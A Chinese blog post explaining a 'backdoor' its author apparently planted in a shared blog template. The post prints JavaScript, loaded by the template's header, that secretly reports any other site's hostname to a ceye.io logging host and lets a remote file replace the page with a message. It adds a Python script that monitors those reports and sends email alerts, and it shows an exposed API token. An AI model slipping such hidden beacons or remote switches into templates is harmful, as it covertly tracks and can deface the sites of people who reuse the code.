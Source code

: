 ```yaml
---
layout: post
author: Vulkey_Chen
title: "博客模板后门"
date: 2019-01-23
music-id: 441491828
permalink: /archives/2019-01-23/1
description: "博客模板后门"
---
```


## 在博客模板的header.html中引用了外部的JS地址
<script src="aliyuncs.com/demo.min.js"></script><!--  https://X.com/arouline/demo.min.js -->
完整代码如下：

```javascript
var host = document.location.host;
var reg = new RegExp(/disbb.com/);
var isok = reg.test(host);
if(!isok){
	var img = document.createElement("img");
    img.src="http://myblog.d5z0tw.ceye.io/fuck?domain=" + host;
	img.style="display:none";
	document.body.appendChild(img);
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange=function(){
        if(xhr.responseText == "YES"){
        	document.write("<center><h1>Please tell me before using my template!By:[X.com]<center><h1>");
        }
    }
    xhr.open("GET","https://X.com/arouline/isopen.txt",true);
    xhr.send(null);
}
```

### Python 监控

利用`ceye.io`这个平台的API去实时监控，并且使用邮件发信通知。

导入Python模块 && 全局变量：

```python
#encoding: utf-8
import smtplib,requests,json,urlparse,sys,time
from email.MIMEText import MIMEText
from email.Utils import formatdate
from email.Header import Header

log = {}
```

**1.QQ邮件发信：**

```python
def send_mail(domain,ip):
	smtpHost = 'smtp.qq.com'
	smtpPort = '25'
	fromMail = 'X@qq.com'
	toMail = '接收方@qq.com'
	username = 'X@qq.com'
	password = 'X'
	reload(sys)
	sys.setdefaultencoding('utf8')
	subject = u'监控到有人copy您的disbb.com！'
	body = u"[信息]\n Domin: {0}  IP: {1}".format(domain,ip)

	encoding = 'utf-8'
	mail = MIMEText(body.encode(encoding),'plain',encoding)
	mail['Subject'] = Header(subject,encoding)
	mail['From'] = fromMail
	mail['To'] = toMail
	mail['Date'] = formatdate()

	try:
		smtp = smtplib.SMTP(smtpHost,smtpPort)
		smtp.ehlo()
		smtp.login(username,password)
		smtp.sendmail(fromMail,toMail.split(','),mail.as_string())
		print u"邮件已发送，监控信息："
		print body
	except Exception,e:
		print e
		print u"发送失败，监控信息："
		print body
	finally:
		smtp.close()
```

**2.ceye.io API调用获取信息，[个人中心](http://ceye.io/profile)可以看见API TOKEN，[API使用方法](http://ceye.io/api)：**

```python
def dnslog_monitor():
	api = "http://api.ceye.io/v1/records?token=613670c89aefe3488f89cb958d4b0370&type=http&filter=myblog"
	r = requests.get(api)
	json_data = json.loads(r.text)
	print json_data
	for i in json_data['data']:
		query = urlparse.urlparse(i['name']).query
		sb_domain = dict([(k, v[0]) for k, v in urlparse.parse_qs(query).items()])['domain']
		sb_ip = i['remote_addr']
		if sb_domain in log:
			pass
		else:
			print sb_domain
			log[sb_domain] = sb_ip
			send_mail(sb_domain,sb_ip)
```

**3.main函数：**

```python
def main():
	while True:
		dnslog_monitor()
		time.sleep(3)

if __name__ == '__main__':
     main()
```
